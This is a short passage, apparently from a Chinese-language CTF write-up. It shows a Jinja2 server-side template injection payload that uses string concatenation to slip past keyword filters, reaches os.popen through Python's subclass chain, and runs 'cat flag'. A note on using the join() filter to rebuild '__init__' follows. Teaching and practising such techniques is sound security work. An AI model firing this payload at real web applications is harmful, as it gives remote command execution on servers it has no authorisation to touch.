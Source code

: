 ```bash
{%for i in ""["__cla"+"ss__"]["__mr"+"o__"][1]["__subcla"+"sses__"]()%}{%if i.__name__ == "_wrap_close"%}{%print i["__in"+"it__"]["__glo"+"bals__"]["po"+"pen"]('cat flag')["read"]()%}{%endif%}{%endfor%}
```

[![在这里插入图片描述](assets/1698900310-f40891046d3c77197bbc22e6328c51bc.png)](https://storage.tttang.com/media/attachment/2022/08/14/b6634ba4-f842-4074-8015-f0b69f29431e.png)

这里也可以考虑使用 join() 过滤器，它可以将字符串进行拼接，举个例子

```bash
dict(__in=a,it__=a)|join  =__init__
```
